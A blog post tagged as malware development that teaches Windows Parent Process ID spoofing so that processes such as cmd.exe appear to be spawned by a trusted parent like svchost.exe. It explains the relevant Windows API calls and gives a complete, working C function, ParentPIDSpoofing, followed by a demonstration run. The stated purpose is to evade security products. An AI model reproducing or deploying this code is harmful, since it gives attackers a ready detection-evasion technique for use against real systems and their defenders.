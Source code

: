 ```yaml
---
layout: post
title: "Spoofing Parent Process ID (PPID)"
date: 2024-07-29 09:49:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```


# Spoofing Parent Process ID (PPID)


Parent Process ID (PPID) spoofing is a technique used to manipulate the relationship between a child process and its parent process. This makes it appear as though the child process was initiated by a different, legitimate process.

This can be achieved by modifying the parent process ID, making it appear as though the process originated from a trusted source. For example, an Excel sheet spawning a \`cmd.exe\` process would typically raise suspicions with security solutions, but \`svchost.exe\` spawning a \`cmd.exe\` would not.

Let’s explore how to spoof the Parent Process ID (PPID) of a process.

Creating a process
-------------------

To spoof a process PPID, we first need to create a process using the [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) WinAPI with the `EXTENDED_STARTUPINFO_PRESENT` flag set in the `dwCreationFlags` parameter. According to Microsoft documentation, this requires a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) structure in the `lpStartupInfo` parameter.

![Extended_startup](2024-07-16-png_spoofing_parent_process/startupinfo_present.png)

STARTUPINFOEX structure
-----------------------

The `STARTUPINFOEX` structure specifies the window station, desktop, standard handles, and attributes for a new process. Since it is responsible for defining attributes for a new process, it will be particularly useful for our purpose.

The structure `STARTUPINFOEX` is shown below.

```c++
typedef struct _STARTUPINFOEXW {
    STARTUPINFOW StartupInfo;
    LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXW, *LPSTARTUPINFOEXW;
```


*   **Startupinfo**: same as Startupinfo structure which was used to create a normal process.
*   **lpAttributeList**: An attribute list. This list is created by the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) function.

As the `InitializeProcThreadAttributeList` function creates an attribute list for the process in inside `STARTUPINFOEX` structure. we have to take a look at it.

InitializeProcThreadAttributeList
---------------------------------

[`InitializeProcThreadAttributeList`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) is responsible for Initializing the specified list of attributes for process and thread creation.

The `InitializeProcThreadAttributeList` function is shown below:

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags,
  [in, out]       PSIZE_T                      lpSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list.
*   **dwAttributeCount**: The number of attributes to set.
*   **dwFlags**: This parameter is reserved and must be zero.
*   **lpSize**: This will return the size required to set the attributes.

The `dwAttributeCount`will be set to 1 since only one attribute is needed.

According to the microsoft the initial call to this function will return an error by design which will return the size required to allocate enough space for the data in the `lpAttributelist` buffer and call the function again to initialize the buffer. next the [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)function will be responsible for adding attributes to the list.

![Initialize_procthread](_post/2024-07-16-png_spoofing_parent_process/remarks_initialize_proc_thread.png)


UpdateProcThreadAttribute
-------------------------

The [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) function is shown below

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwFlags,
  [in]            DWORD_PTR                    Attribute,
  [in]            PVOID                        lpValue,
  [in]            SIZE_T                       cbSize,
  [out, optional] PVOID                        lpPreviousValue,
  [in, optional]  PSIZE_T                      lpReturnSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list initialized by `InitializeProcThreadAttributeList`. This list contains attributes to be updated.
*   **dwFlags**: Reserved; must be zero.
*   **Attribute**: The attribute to update. For our spoofing of PPID the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is required.

*   **lpValue**: A pointer to the value for the attribute being updated. in our case of PPID spoofing it becomes the handle of the parent process.
*   **cbSize**: The size of the value pointed to by `lpValue`, in bytes.
*   **lpPreviousValue**: Optional. A pointer to receive the previous value of the attribute, if needed.
*   **lpReturnSize**: Optional. A pointer to receive the size of the previous attribute value returned in `lpPreviousValue`.

LOGIC
-----

1.  call `InitializeProcThreadAttributeList` to set the number of attributes to be set and allocate enough space for the attributelist.
2.  call `UpdateProcThreadAttribute` with `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to initialize the attribute.
3.  call `CreateProcessW` with the `EXTENDED_STARTUPINFO_PRESENT` flag and utilize the `STARTUPINFOEXW` structure that has been initialized using `InitializeProcThreadAttributeList` and updated using `UpdateProcThreadAttribute`

ParentPIDSpoofing function
--------------------------

`ParentPIDSpoofing` is a function that creates process with Spoofed PPID.

parameters:

*   **hprocess**: handle of the parent process whose PID is to be spoofed.
*   **newprocessname**: name of the process to create.
*   **hnewprocess**: A pointer to the handle which receives handle to the newly created process.
*   **dwnewPID**: A pointer to the PID which receives PID of the newly created process.

```C

BOOL ParentPIDSpoofing(handle hprocess, LPWSTR newprocessname, HANDLE* hnewprocess, DWORD *dwnewPID) {
 STARTUPINFOEXW SI = { 0 };
 PROCESS_INFORMATION PI = { 0 };
 SI.StartupInfo.cb = sizeof(STARTUPINFOW);
 SIZE_T Attributelist = 0;
 SI.StartupInfo.cb = sizeof(STARTUPINFOEXW);
 InitializeProcThreadAttributeList(NULL, 1, 0, &Attributelist);
 SI.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, Attributelist);
 if (SI.lpAttributeList == NULL) {
  printf("Heap alloc failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!InitializeProcThreadAttributeList(SI.lpAttributeList, 1, 0, &Attributelist)) {
  printf("InitializeProcThreadAttirbuteList failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!UpdateProcThreadAttribute(SI.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hprocess, sizeof(hprocess), NULL, NULL)) {
  printf("UpdateProcThreadAttirbute failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!CreateProcessW(NULL, newprocessname, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &SI.StartupInfo, &PI)) {
  printf("The CreateprocessW failed with error no %x\n", GetLastError());
  return FALSE;
 }
 *hnewprocess = PI.hProcess;
 *dwnewPID = PI.dwProcessId;
 return TRUE;
}
```


Execution
---------

Create the child process `Notepad.exe` with the parent process being `svchost.exe`, which has a PID of 4312.

`NOTE: svchost.exe is running with normal privileges.`

`Notepad.exe` appears to be spawned by `svchost.exe` .